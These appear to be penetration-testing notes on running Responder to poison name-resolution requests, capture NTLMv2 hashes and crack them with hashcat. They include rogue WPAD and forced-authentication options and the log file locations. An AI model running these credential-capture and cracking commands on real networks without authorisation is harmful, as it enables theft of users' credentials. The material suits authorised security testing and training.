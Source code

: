 ### Using Responder
- **Install Responder:**
  ```bash
  sudo apt-get install responder
  ```
- **Run Responder with default settings:**
  ```bash
  sudo responder -I <network_interface>
  ```
  Replace `<network_interface>` with your actual network interface, e.g., `ens224`.
- **Common options:**
  - `-A`: Analyze mode, sees requests without poisoning.
  - `-w`: Start WPAD rogue proxy server.
  - `-f`: Fingerprint remote host OS and version.
  - `-v`: Increased verbosity.
  - `-F`: Force NTLM or Basic authentication.
  - `-P`: Force proxy authentication.
- **Example Command:**
  ```bash
  sudo responder -I ens224 -wf
  ```

### Ports to Ensure Availability
- **UDP:** 137, 138, 53, 1434, 5355, 5353
- **TCP:** 80, 135, 139, 445, 21, 25, 110, 587, 3128, 3141, 1433, 389

### Configuration File
- **Location:** `/usr/share/responder/Responder.conf`
- **Adjustments:** Disable rogue servers and setup logging as needed.

### Responder Logs
- **Log files:** Stored in `/usr/share/responder/logs` with format `MODULE_NAME-HASH_TYPE-CLIENT_IP.txt`
  ```bash
  ls /usr/share/responder/logs
  ```
  Example:
  ```bash
  SMB-NTLMv2-SSP-172.16.5.25.txt
  ```

### Capturing with Responder
1. **Start Responder in a tmux window:**
   ```bash
   tmux
   sudo responder -I ens224
   ```
2. **Crack captured hashes using Hashcat:**
   ```bash
   hashcat -m 5600 <hash_file> <wordlist>
   ```
   Replace `<hash_file>` with the path to your hash file and `<wordlist>` with the path to your wordlist.
